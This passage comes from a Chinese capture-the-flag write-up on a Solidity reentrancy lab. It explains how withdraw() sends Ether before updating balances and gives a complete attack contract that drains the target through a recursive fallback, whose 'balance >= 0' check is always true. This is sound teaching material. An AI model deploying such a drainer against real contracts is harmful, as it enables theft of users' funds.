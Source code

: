 ```solidity
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

- 解题步骤：
    - 该合约有一个withdraw()转账即取钱函数，观察该函数我们可知，该函数弄错了记账、转账的顺序（先转账，再记账）
    - 在目标合约中使用的是 `msg.sender.call{value:_amount}("")`
    ，并且在这之后才减少 balances，而这里使用的是call()转账函数，所以会触发fallback()函数，我们在攻击合约中再次调用withdraw()函数就实现了重入攻击，不断取出目标合约中的余额直到为0
    - 先输入`await getBalance(instance)`,可以知道目标合约的余额为0.001eth，所以每次 withdraw 0.001 eth。
    - 我们部署攻击合约，先调用donate()函数向目标合约转入0.001eth，就满足了if中的判断条件，然后调用withdraw()函数取走我们刚存入的钱，然后会触发攻击合约中fallback()函数继续调用目标合约中的withdraw()函数，而balances还没有改变所以if判断成立，就能继续取走合约中的钱直到合约中的钱取空。
- 攻击合约：
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;
    
    contract Attack {
        Reentrance Reentrance;
        uint money;
        
        constructor(address payable _addr) public payable {
            Reentrance = Reentrance(_addr);
        }
    
        function donate()public payable{
            money=msg.value;
            Reentrance.donate{value:money}(address(this));
        }
    
        function withdraw() public {
            Reentrance.withdraw(money);
        }
    
        fallback() external payable {
            if (address(Reentrance).balance >= 0) {
                Reentrance.withdraw(money);
            }
        }
        
    }
    ```
    
- PS：
    - 经典的重入攻击

### Elevator
